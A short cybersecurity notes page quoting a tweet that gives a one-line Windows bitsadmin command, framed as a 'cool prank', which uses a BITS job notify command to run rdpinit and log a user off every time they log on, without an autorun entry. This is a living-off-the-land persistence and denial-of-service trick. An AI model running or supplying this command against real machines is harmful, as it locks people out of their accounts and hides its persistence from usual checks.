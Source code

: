 ```yaml
---
layout: ../../templates/cybersec_page.astro
title: A Cool Windows Prank :)
direct_link: https://twitter.com/fkadibs/status/1434291573655752706
---
```


[@fkadibs](https://twitter.com/fkadibs):

> log off a user whenever they log on, without an autorun:
>
> `bitsadmin /create 1 & bitsadmin /addfile 1 google.com/0.html %temp%\0.html & bitsadmin /setnotifycmdline 1 rdpinit NULL & bitsadmin /resume 1`

This was in reply to a [@SwiftOnSecurity](https://twitter.com/swiftonsecurity) tweet (you should follow them btw) saying:

> Running "rdpinit" in Windows run command will immediately forcibly logoff the user.

what a cool prank :)
